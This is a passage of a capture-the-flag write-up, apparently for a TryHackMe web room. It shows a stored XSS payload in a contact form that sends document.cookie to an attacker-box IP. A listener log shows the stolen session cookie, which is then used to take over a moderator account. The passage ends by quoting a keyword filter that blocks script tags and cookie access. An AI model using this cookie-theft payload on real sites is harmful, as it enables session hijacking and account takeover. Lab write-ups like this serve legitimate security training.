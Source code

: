 ```
For now, access is protected with a completed 8-character alphanumeric password (********), in order to restrict exposure and safeguard details regarding our potential investors.

I will be away on holiday but will be back soon.

Regards,
Robert
```

I did try to brute force `/login.php` with two emails `software@review.thm` and `product@review.thm` but there was no luck...

`/finance.php` and `lottery.php` with the **password** are going to be used when you get access to `admin` user

## mod user

after trying hundreds of ways, i tried `xss` in `/contact.php` in the message field

```
<script>new Image().src="http://<Your_Attackbox_IP>/cookie.php?c="+document.cookie;</script>
```

Setting up a listener and we get back the `mod` user `phpsessid` cookie so we simply change our phpsessid cookie in the browser, reload and now we have access to the user **mod**.

```
┌──(kali㉿kali)-[~/CTF/tryhackme/target/sequence]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.118.206 - - [22/Sep/2025 03:56:28] code 404, message File not found
10.10.118.206 - - [22/Sep/2025 03:56:28] "GET /cookie.php?c=PHPSESSID=cac51rhpqi4dlk37hskhj5g3c4 HTTP/1.1" 404 -
```

after refreshing you can get the first flag from the header section THM{\*}

## admin user

Looking at the `chat.php` we might think that we have to exploit `xss` again, but its not possible because the web is doing both sanitization and filtering

```
    const msg = document.querySelector('input[name="message"]').value.toLowerCase();
    const dangerous = ["<script>", "</script>", "onerror", "onload", "fetch", "ajax", "xmlhttprequest","eval", "document.cookie", "window.location"];

    for (let keyword of dangerous) {
        if (msg.includes(keyword)) {
            e.preventDefault();
            const modal = new bootstrap.Modal(document.getElementById("warningModal"));
            modal.show();
            break;
        }
    }
```
